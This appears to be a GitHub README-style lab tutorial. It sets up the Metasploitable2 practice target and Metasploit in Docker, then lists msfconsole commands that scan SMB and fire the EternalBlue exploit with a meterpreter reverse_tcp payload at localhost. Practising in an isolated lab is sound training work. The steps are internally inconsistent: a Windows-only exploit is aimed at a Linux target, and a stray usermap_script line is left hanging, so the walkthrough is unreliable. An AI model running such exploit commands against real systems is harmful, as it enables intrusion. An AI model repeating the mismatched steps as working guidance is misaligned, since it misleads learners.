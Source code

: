 # 1. Preparation
## Use Docker to run Metasploit

### Check Docker status
`docker --version`

# 2. Build attack target
### Download Metasploit2 
`docker pull tleemcjr/metasploitable2`

### Run Metasploit2 in Docker
`docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2`

- -p 445:445：開放 SMB（檔案共享漏洞）
- -p 21:21：開放 FTP（容易被暴力破解）
- -p 22:22：開放 SSH（可能存在弱密碼）
- -p 80:80：開放 Web 服務（可能存在漏洞）

### Check Metasploit2 in Docker status
`docker ps`

# 3. Run attacker
### Run Metasploit in Docker
`docker run --rm -it metasploitframework/metasploit-framework  # delete when exit docker`

`docker run -it --name metasploit metasploitframework/metasploit-framework  # keep docker container`
`docker start -ai metasploit  # run docker with next time`
`help  # check metasploit status`

# 4. Scan target system
use exploit/multi/samba/usermap_script

msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 127.0.0.1
msf6 auxiliary(scanner/smb/smb_version) > run

## exploit
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 127.0.0.1
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 127.0.0.1
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit





